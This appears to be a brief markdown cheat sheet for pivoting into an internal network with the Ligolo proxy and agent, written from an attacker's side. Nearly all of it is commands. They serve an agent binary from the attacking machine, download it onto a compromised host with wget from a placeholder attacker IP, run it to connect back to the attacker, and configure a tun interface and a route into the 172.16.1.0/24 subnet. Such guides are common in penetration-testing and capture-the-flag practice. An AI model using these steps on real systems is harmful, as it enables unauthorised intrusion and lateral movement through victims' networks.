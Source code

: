 ## 1. Run Python web server from attacking machine. Host the 'agent.exe/agent' file.
`python3 -m http.server 8000`

## 2. Run from the compromised host.
`wget http://<AttackingIP>:<AttackingPort>/agent`

## 3. Run from your attacking machine.
`sudo ./proxy -selfcert`

## 4. Run from the compromised host. (If compromised host = Linux)
`sudo chmod +x ./agent`

`sudo ./agent -connect <AttackingIP>:11601 -ignore-cert`

If (compromised host = Windows)
`./agent.exe -connect <AttackingIP>:11601 -ignore-cert`

## 5. Run from Ligolo Proxy (From Attacking Machine)
`session`
`1`
`ifconfig`

In the above ifconfig command, copy the IP address of the interface. Let us assume the IP is 172.16.1.100

## 6. Run the following commands on the attacking machine to set up the interface.
`sudo modprobe tun`
`sudo ip tuntap add mode tun dev ligolo`
`sudo ip route add 172.16.1.0/24 dev ligolo`
`ip route list`

## Do you see the Ligolo interface now? If not, repeat the above steps.
